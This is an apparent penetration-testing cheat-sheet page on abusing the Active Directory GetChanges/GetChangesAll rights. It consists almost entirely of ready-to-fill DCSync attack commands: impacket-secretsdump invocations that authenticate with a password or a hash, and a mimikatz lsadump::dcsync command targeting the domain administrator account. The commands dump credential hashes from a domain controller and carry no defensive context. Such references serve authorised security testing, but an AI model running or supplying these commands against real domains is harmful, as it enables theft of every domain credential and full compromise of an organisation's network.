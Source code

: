 ```yaml
---
title: "GetChanges/GetChangesAll"
date: 2024-7-9
tags: ["Dcsync", "Getchanges", "Getchangesall", "Secretsdump", "Active Driectory", "Windows"]
---
```


#### Abuse #1: DCSync Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# With creds
impacket-secretsdump -just-dc '<USER>:<PASSWORD>@<TARGET>'
```

```console
# With hashes
impacket-secretsdump -hashes <HASH> -just-dc '<DOMAIN>/<USER>@<TARGET>'
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
.\mimikatz.exe 'lsadump::dcsync /domain:<DOMAIN> /user:administrator' exit
```

{{< /tabcontent >}}
